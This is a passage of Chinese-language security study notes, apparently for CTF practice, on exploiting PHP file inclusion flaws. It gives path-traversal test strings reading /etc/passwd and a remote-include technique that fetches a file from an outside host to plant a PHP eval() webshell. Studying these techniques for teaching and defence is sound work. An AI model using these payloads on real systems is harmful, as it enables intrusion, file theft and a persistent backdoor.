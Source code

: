### 漏洞利用

- 读取敏感信息
- 远程包含写Shell
- 本地包含配合文件上传 
- 使用PHP封装协议
- 包含Apache日志文件
- 截断包含

**可利用的本地文件：**

-   特殊的系统文件或应用文件
-   配合phpinfo包含临时文件
-   包含SESSION会话文件

[文件上传之结合phpinfo与本地文件包含利用](https://www.shuzhiduo.com/A/mo5kVWXKJw/)

[包含SESSION会话文件](https://blog.csdn.net/Z526209693/article/details/125431252)

**存在包含漏洞的页面特征：**

```
?page=a.php

?home=b.html

?file=content
```

经典测试方式

```
?file=../../../../etc/passwd

?page=file:///etc/passwd

?page=http://www.cnhongke.org/1.php
```

**远程包含写Shell**：

条件：allow_url_fopen = On

远程服务器中shell.txt文件内容：

`<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST['abc']);?>");?>`

执行：http://targetip/index.php?page=http://remoteip/shell.txt

此时在index.php所在的目录下会生成一个shell.php文件，文件内容为php一句话木马：`<?php eval($_POST[’abc’]);?>`

[CTFHub](https://www.ctfhub.com/#/skilltree)

## PHP RCE

### 什么是RCE

RCE又称远程代码执行漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。
